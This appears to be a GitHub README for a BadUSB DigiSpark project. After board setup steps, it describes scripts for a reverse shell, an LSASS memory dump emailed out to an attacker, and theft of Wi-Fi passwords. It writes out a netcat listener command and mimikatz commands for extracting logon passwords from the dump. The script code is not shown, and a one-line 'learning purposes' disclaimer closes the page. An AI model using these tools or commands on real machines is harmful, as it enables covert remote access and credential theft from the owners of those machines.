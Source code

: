 # BadUSB-DigiSpark Keyboard #

![alt text](https://ksr-ugc.imgix.net/assets/000/103/753/8e69aa968fcece8a35b644f17b92a939_original.jpg?w=680&fit=max&v=1344375979&auto=format&q=92&s=ca0a704479c3ee828a33780fb2cfd5a6)

### In order to upload the sketches to your DigiSpark you need the following: ###


- #### Download and install the Arduino IDE. ####
~~~~
https://www.arduino.cc/en/Main/Software
~~~~
- #### Configure and install the additional Digispark boards: ####
~~~~
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
~~~~
- #### Configure your Digisprark setup. ####
~~~~
In the Arduino IDE set your board to (DigiSpark Default 16,5 Mhz) and the programmer to USBtinyISP.
~~~~
- #### Download and install the Digistump Drivers. ####
~~~~
https://github.com/digistump/DigistumpArduino/releases
~~~~


# Reversed Shell #

Simple script for setting up a reversed shell over TCP or UDP and specific port.


## Before you start setup the listener on the remote host. ##

~~~~
Run Netcat
~~~~
~~~~
# nc -ul -p 53
~~~~


You can also use powershell scripts see Powershell directory for the files or instructions below.


# Send-LSASS-Dump #

Started this script for a BadUSB Digispark project, script for retrieving lsass dump with sysinternals procdump tool.
Dump file is automatically send to an email address which can be configured in the variables.

## After receiving the dump file you can examine it and retreive the passwords. ##
~~~~
Run Mimikatz
~~~~
~~~~
mimikatz # sekurlsa::minidump lsass.dmp
~~~~
~~~~
mimikatz # sekurlsa::logonPasswords
~~~~

# Netsh-Ripper #

Started this script for a BadUSB Digispark project, script for retreiving wlan profile information and clear text passwords.
Text file is automatically send to an email address which can be configured in the variables.

### Only use this for learning purposes. ###
